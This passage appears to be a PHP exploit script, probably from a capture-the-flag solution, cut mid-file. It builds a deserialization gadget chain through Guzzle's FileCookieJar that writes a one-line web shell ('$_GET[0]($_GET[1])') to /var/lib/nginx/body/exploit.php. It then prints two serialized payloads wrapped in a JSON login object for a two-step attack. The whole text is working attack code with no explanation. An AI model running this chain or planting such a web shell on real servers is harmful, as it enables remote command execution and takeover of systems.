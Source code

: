```php
            'HttpOnly' => false
        ];
        function __construct()
        {
            $this->data['Expires'] = '<?php $_GET[0]($_GET[1]);?>';
            $this->data['Discard'] = 0;
        }
    }

    class CookieJar{
        private $cookies = [];
        private $strictMode;
        function __construct()
        {
            $this->cookies[] = new SetCookie();
        }
    }

    class FileCookieJar extends CookieJar{
        private $filename;
        private $storeSessionCookies;
        function __construct()
        {
            parent::__construct();
            $this->filename = "/var/lib/nginx/body/exploit.php";
            $this->storeSessionCookies = true;
        }
    }
}

namespace {
    class www_frontend_vendor_autoload {
    }
    class var_lib_nginx_body_exploit {
    }

    class Exploit {
        private $a;
        private $b;
        function __construct()
        {
            $this->a = new www_frontend_vendor_autoload();
            $this->b = new \GuzzleHttp\Cookie\FileCookieJar();
        }
    }

    function gen_payload($payload) {
        return json_encode(array('_id' => 1, 'username' => 'admin', 'password' => 'admin', 'access' => $payload));
    }

    $exploit = new Exploit();
    $obj1 = serialize($exploit);

    $trigger = new var_lib_nginx_body_exploit();
    $obj2 = serialize($trigger);

    echo "Step 1:\n";
    echo gen_payload($obj1);
    echo "\n";
    echo "\n";
    echo "Step 2:\n";
    echo gen_payload($obj2);
```